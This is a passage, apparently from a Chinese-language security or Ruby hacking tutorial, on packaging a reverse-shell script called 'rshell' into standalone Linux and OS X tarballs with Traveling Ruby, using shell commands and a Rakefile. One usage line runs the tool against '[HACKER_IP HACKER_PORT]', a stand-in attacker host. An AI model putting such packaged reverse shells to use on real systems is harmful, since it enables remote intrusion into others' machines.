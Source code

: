 将此文件保存为 `packaging/wrapper.sh` 在您项目的根目录中。然后您可以将其复制到每个软件包目录并命名为 `rshell`：

```
chmod +x packaging/wrapper.sh
cp packaging/wrapper.sh rshell-1.0.0-linux-x86/rshell
cp packaging/wrapper.sh rshell-1.0.0-linux-x86_64/rshell
cp packaging/wrapper.sh rshell-1.0.0-osx/rshell 
```

##### 完成软件包

```
tar -czf rshell-1.0.0-linux-x86.tar.gz rshell-1.0.0-linux-x86
tar -czf rshell-1.0.0-linux-x86_64.tar.gz rshell-1.0.0-linux-x86_64
tar -czf rshell-1.0.0-osx.tar.gz rshell-1.0.0-osx
rm -rf rshell-1.0.0-linux-x86
rm -rf rshell-1.0.0-linux-x86_64
rm -rf rshell-1.0.0-osx 
```

恭喜，您已经使用 Traveling Ruby 创建了软件包！

一个 x86 Linux 用户现在可以这样使用您的应用程序：

1.  用户下载了 rshell-1.0.0-linux-x86.tar.gz。

1.  用户提取此文件。

1.  用户运行您的应用程序：

```
/path-to/rshell-1.0.0-linux-x86/rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT] 
```

##### 自动化流程

在每次发布时执行上述所有步骤都很麻烦，因此您应该自动化打包过程，例如使用 Rake。以下是 Rakefile 的示例：

```
PACKAGE_NAME = "rshell"
VERSION = "1.0.0"
TRAVELING_RUBY_VERSION = "20150210-2.1.5"

desc "Package your app"
task :package => ['package:linux:x86', 'package:linux:x86_64', 'package:osx']

namespace :package do
  namespace :linux do
    desc "Package your app for Linux x86"
    task :x86 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
      create_package("linux-x86")
    end

    desc "Package your app for Linux x86_64"
    task :x86_64 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
      create_package("linux-x86_64")
    end
  end

  desc "Package your app for OS X"
  task :osx => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
    create_package("osx")
  end
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
  download_runtime("linux-x86")
end

```